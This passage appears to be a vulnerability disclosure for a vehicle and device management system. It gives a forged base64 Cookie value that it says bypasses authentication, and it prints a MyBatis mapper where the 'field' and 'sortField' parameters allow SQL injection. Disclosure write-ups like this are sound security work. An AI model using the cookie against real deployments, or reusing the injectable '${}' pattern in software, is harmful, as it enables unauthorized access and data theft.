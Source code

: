 ```
Cookie:Saffron.U="VUlEPTEmR0lEPTE3NTk4MTczMjgyMzg0NyZSSUQ9MSZNPUdNYXAmSU5TPTA="
```
<img width="525" height="475" alt="image" src="https://github.com/user-attachments/assets/e6a4be9c-d171-4426-8af6-66be581cb523" />

At this point, we have bypassed the authentication of this system.

### SQL Injection Vulnerability
Since the system uses MyBatis, we only need to search globally for `${` to find overlooked vulnerabilities.

```xml
<select id="queryLastRepairRecord" resultType="RepairRecordInfo">
		select a.id,a.chipcode,a.repairrecordid,a.beforefaultid,a.repairstate,a.remark,a.endtime,a.appointtime,
		ceil(a.repairtime/86400) as repairtime,a.username,a.userstate,a.`password`,b.carlicense,b.devicetype,b.deviceno,
		b.identification,c.`password` as rightpassword,d.groupName 
		from last_repairrecord as a INNER JOIN vehicledeviceinfo as b on a.chipcode=b.chipcode inner join groupinfo as d on b.groupid = d.groupid
		LEFT JOIN userinfo as c on a.username = c.username 
		<where>
			a.unidentified=0 and
			b.vehicleid in
			<foreach collection="vehicleIdList" item="vehicleId" separator="," open="(" close=")">
  				#{vehicleId} 
  			</foreach> 
  			<if test="userNameList!=null and userNameList.size()>0">
	  			and a.username in
				<foreach collection="userNameList" item="userName" separator="," open="(" close=")">
	  				#{userName} 
	  			</foreach> 
	  		</if>
	  		<if test="faultTypeList!=null and faultTypeList.size()>0">
	  			and 
				<foreach collection="faultTypeList" item="faultType" separator=" or " open="(" close=")">
	  				 beforefaultid like concat('%/',#{faultType},'/%')
	  			</foreach> 	  			
	  		</if>
	  		<if test="repairState!=null and repairState!='-1'.toString()">
  				and a.repairstate=#{repairState}
  			</if>
  			<if test="field==null and value!=null and value!=''.toString()">
  				and (b.chipcode like concat('%',#{value},'%') or b.carlicense like concat('%',#{value},'%') 
  				or b.deviceno like concat('%',#{value},'%') or b.devicetype like concat('%',#{value},'%')
  				or b.identification like concat('%',#{value},'%'))
  			</if>
  			<if test="field!=null and value!=null and value!=''.toString()">
  				and b.${field} like concat('%',#{value},'%')
  			</if>
  			<if test="startTime!=null and endTime!=null">
  				and ((a.endtime between #{startTime} and #{endTime}) 
  				or (a.appointtime between #{startTime} and #{endTime}))
  			</if>
		</where>
		<if test="sortField!=null">
			 order by ${sortField}
			 <if test="sortType=='desc'">
			 	desc 
			 </if> 
```
